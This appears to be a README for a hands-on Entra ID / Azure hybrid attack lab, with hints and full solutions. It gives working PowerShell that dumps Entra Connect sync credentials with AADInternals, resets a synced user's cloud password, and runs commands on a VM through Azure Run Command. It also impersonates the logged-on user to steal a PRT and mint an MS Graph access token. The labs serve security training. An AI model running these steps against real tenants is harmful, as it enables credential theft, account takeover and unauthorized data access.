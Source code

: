 creds of an SP -> azure run command -> vm that has user logged on -> steal user prt ->


# Preparations
1. RDP login to DC VM using the YOURDOMAIN\rootuser
2. RDP login to Win11 VM using the YOURDOMAIN\user1, keep this window open in the background - you're not allowed to use it from now on.

# Instructions
1. Your goal is to find the secret.txt file 
2. forget everything you knew: from this point on you DON'T know what the admin password is (i.e. what's the password of 'user1')
3. DO NOT password reset or silver ticket (seamless sso) "user1"
3. the only thing you have is the RDP session on the DC. Good luck! 

# Hints

<details>
    <summary><b>First hint: where the secret.txt file isn't stored</b></summary>

    The file isn't on a VM
</details>


<details>
    <summary><b>Entire attack path hint (use as last resort)</b></summary>

    1. pass reset: DC vm -> reset pass of "user2" using Entra Sync credentials

    2. login to Azure as that user using your browser

    3. azure run command on Win11 VM (the VM that has user1 logged on)

    4. Steal user1 PRT Cookie by running powershell script from the Run Command extension on the Azure portal 

    5. Use PRT Cookie to get access token and authenticate using PowerShell to MS Graph API read secret.txt from storage account
</details>



## Step 1

<details>
<summary><b>Hint 1</b></summary>
    
    1. Find a way to compromise a synced user in order to jump to the cloud

    2. Recon for roles / permissions to see which user you want to compromise

    3. it's not "user1"...
</details>


<details>
    <summary><b>Hint 2</b></summary>
    
    Abuse the Entra Connect password reset feature using AADInternals
</details>



<details>
<summary><b>Solution</b></summary>
    
```powershell
Import-Module AADInternals
Get-AADIntSyncCredentials
```

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -SaveToCache
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id
```

Enumerate users:
```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize
```

Reset the victim user's Entra password:
```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS" -Verbose
```
</details>


## Step 2

<details>
    <summary><b>Hint 1</b></summary>
    
    Login to Azure as that user and see what you have access to
</details>

<details>
    <summary><b>Hint 2</b></summary>
    
    You can find the virtual machine Win11 and using the Run Command extension execute PowerShell script on it
</details>


<details>
    <summary><b>Hint 3</b></summary>
    
    Use this ability to get a PRT Cookie so you can impersonate as that user and steal its identity and permissions
</details>

<details>
    <summary><b>Hint 4</b></summary>
```powershell
# You'll need to impersonate to the logged on user, consider using:
Install-Module Impersonate -Force -AllowClobber
Import-Module Impersonate
```
</details>

<details>
<summary><b>Solution</b></summary>
1. Get the logged in user's access token: run the following command from the Run Command Window in the Azure portal:
```powershell
Install-Module Impersonate -Force -AllowClobber
Import-Module Impersonate
Invoke-Impersonation -Username "YOURDOMAIN\user1" -PsCommandToRun 'Import-Module AADInternals; $prtToken = Get-AADIntUserPRTToken; $at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken; $at > C:\accessToken.txt'
Get-Content C:\accessToken.txt
```
</details>


### Step 3 Hint
### Step 3 Solution

```powershell
$at = "eyJ...."
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser
```

### Bonus: 
Go back to the beginning, and try steal user2 using silver ticket (Seamless SSO) instead of password reset
